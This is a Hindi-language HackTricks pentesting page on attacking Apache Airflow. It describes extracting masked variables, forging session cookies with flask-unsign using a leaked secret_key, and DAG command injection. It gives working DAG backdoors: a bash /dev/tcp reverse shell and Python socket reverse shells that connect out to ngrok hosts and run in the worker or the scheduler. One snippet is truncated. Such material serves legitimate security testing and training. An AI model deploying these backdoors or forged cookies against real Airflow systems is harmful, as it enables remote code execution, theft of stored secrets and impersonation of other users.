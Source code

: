 # Apache Airflow सुरक्षा

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## मूलभूत जानकारी

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइन या वर्कफ़्लो की अनुसूचित करने और संगठन** के लिए उपयोग किया जाता है। डेटा पाइपलाइन की संगठन करने का मतलब है, विभिन्न स्रोतों से डेटा पाइपलाइन को क्रमबद्ध, समन्वय, अनुसूचित करना और प्रबंधित करना। ये डेटा पाइपलाइन व्यापार बुद्धिमत्ता एप्लिकेशन और डेटा विज्ञान, मशीन लर्निंग मॉडल्स के द्वारा उपयोग के लिए तैयार डेटा सेट प्रदान करते हैं जो बड़े डेटा एप्लिकेशन का समर्थन करते हैं।

मूल रूप से, Apache Airflow आपको कोड के **एक्सीक्यूशन की अनुसूचित करने की अनुमति देगा जब कुछ होता है** (इवेंट, cron)।

## स्थानीय प्रयोगशाला

### डॉकर-कंपोज

आप **डॉकर-कंपोज कॉन्फ़िग फ़ाइल का उपयोग कर सकते हैं** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) एक पूर्ण Apache Airflow डॉकर पर्यावरण लॉन्च करने के लिए। (यदि आप MacOS में हैं, तो डॉकर VM को कम से कम 6GB रैम दें।)

### मिनीक्यूब

एक आसान तरीका Apache Airflow को चलाने का है, उसे **मिनीक्यूब के साथ चलाना**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow कॉन्फ़िगरेशन

Airflow अपनी कॉन्फ़िगरेशन में **संवेदनशील जानकारी** संग्रहित कर सकता है या आपको कमजोर कॉन्फ़िगरेशन मिल सकती है:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow को हमला करने से पहले आपको समझना चाहिए कि **अनुमतियाँ कैसे काम करती हैं**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## हमले

### वेब कंसोल जाँच

यदि आपके पास **वेब कंसोल तक पहुंच** है तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

* **चर** (यहां कस्टम संवेदनशील जानकारी संग्रहित की जा सकती है)
* **कनेक्शन** (यहां कस्टम संवेदनशील जानकारी संग्रहित की जा सकती है)
* इन्हें `http://<airflow>/connection/list/` में एक्सेस करें
* [**कॉन्फ़िगरेशन**](./#airflow-configuration) (यहां संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड संग्रहित हो सकती है)
* सूची में **उपयोगकर्ता और भूमिकाएँ**
* प्रत्येक DAG का **कोड** (जिसमें दिलचस्प जानकारी हो सकती है)

### चरों के मान प्राप्त करें

Airflow में चर संग्रहित किए जा सकते हैं ताकि **DAGs** उनके मानों तक **पहुंच** पा सकें। इसे अन्य प्लेटफ़ॉर्मों के सीक्रेट्स के समान माना जा सकता है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से चर के मान को GUI में दिखाएगा, हालांकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार, यह संभव है कि आप एक **चरों की सूची** सेट कर सकते हैं जिनके **मान** GUI में **एस्ट्रिक्स** के रूप में दिखाई देंगे।

![](<../../.gitbook/assets/image (79).png>)

हालांकि, ये **मान** अब भी **CLI** (आपको डेटाबेस एक्सेस होना चाहिए), **अनियमित DAG** निष्पादन, **API** जो चरों के एंडपॉइंट तक पहुंचने की आवश्यकता होती है (एपीआई सक्रिय की जानी चाहिए), और **यहां तक कि GUI खुद से भी!**\
**GUI** से उन मानों तक पहुंचने के लिए बस **चरों को चुनें** जिन्हें आप एक्सेस करना चाहते हैं और **कार्रवाई -> निर्यात** पर क्लिक करें।\
एक और तरीका है **छिपे हुए मान** को **ब्रूटफ़ोर्स** करके प्राप्त करना, जिसमें आपको इसे खोज फ़िल्टरिंग का उपयोग करके प्राप्त करना होगा:

![](<../../.gitbook/assets/image (30).png>)

### विशेषाधिकार उन्नयन

यदि **`expose_config`** कॉन्फ़िगरेशन को **True** पर सेट किया जाता है, तो **यूज़र रोल** और **ऊपर** से वेब में **कॉन्फ़िग** पढ़ सकते हैं। इस कॉन्फ़िग में, **`secret_key`** दिखाई देता है, जिसका मतलब है कि इस वैध उपयोगकर्ता के पास वे अपनी खुद की साइन की कुकी बना सकते हैं और किसी अन्य उपयोगकर्ता खाता का अनुकरण कर सकते हैं।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG बैकडोर (Airflow worker में RCE)

यदि आपके पास **DAGs सहेजे जाने वाले स्थान** में **लेखन का अधिकार** है, तो आप बस एक ऐसा **बना सकते हैं** जो आपको एक **रिवर्स शेल भेजेगा।**\
ध्यान दें कि यह रिवर्स शेल **एक airflow worker container** के भीतर **निष्पादित होगा**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG बैकडोर (Airflow स्केड्यूलर में RCE)

यदि आप कुछ कोड के **रूट में निर्धारित** करते हैं, तो इस लेख के लिए लिखने के समय पर, यह **स्केड्यूलर द्वारा निष्पादित** होगा और इसे DAG के फ़ोल्डर में रखने के कुछ सेकंडों के बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG निर्माण

यदि आपको DAG क्लस्टर के अंदर की मशीन को हथिया लेने में सफलता मिलती है, तो आप `dags/` फ़ोल्डर में नए DAG स्क्रिप्ट बना सकते हैं और वे DAG क्लस्टर के अन्य मशीनों में नकल की जाएंगी।

### DAG कोड इंजेक्शन

जब आप GUI से DAG को निष्पादित करते हैं, तो आप इसे **आर्ग्यूमेंट्स** पास कर सकते हैं।\
इसलिए, यदि DAG सही ढंग से कोड नहीं किया गया है, तो यह **कमांड इंजेक्शन के लिए संकटग्रस्त हो सकता है।**\
यही हुआ था इस CVE में: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAG में **कमांड इंजेक्शन की खोज करना शुरू करने के लिए आपको जानने की जरूरत है कि** **पैरामीटर्स** कोड **`dag_run.conf.get("param_name")`** के साथ **एक्सेस किए जाते हैं**।

इसके अलावा, वही संकटग्रस्तता GUI में **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकारों के साथ आप GUI में वेरिएबल्स के मान को **नियंत्रित कर सकते हैं**)। वेरिएबल्स को **एक्सेस किया जाता है** इसके साथ:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि वे उदाहरण के रूप में एक बैश कमांड के अंदर उपयोग किए जाते हैं, तो आप कमांड इंजेक्शन कर सकते हैं।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं**, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रेपो में पीआर जमा करके।

</details>

